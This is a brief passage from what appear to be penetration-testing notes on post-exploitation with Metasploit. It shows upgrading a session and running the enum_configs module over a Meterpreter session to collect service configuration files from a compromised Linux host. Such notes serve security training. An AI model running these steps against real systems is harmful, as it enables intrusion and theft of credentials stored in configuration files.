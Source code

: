 ### Some Post Exploitation

- Enumerate apps and services **configuration files**

```bash
exit
# if the session dies, open a new one
sessions -u 1
```

```bash
search enum_configs
use post/linux/gather/enum_configs
info
# Description:
#   This module collects configuration files found on commonly installed 
#   applications and services, such as Apache, MySQL, Samba, Sendmail, 
#   etc. If a config file is found in its default path, the module will 
#   assume that is the file we want.
sessions
# Set the Meterpreter session
set SESSION 4
run

# It will not migrate if it's already a x64 process  
```

![Metasploit - post/linux/gather/enum_configs](.gitbook/assets/image-20230422123734142.png)
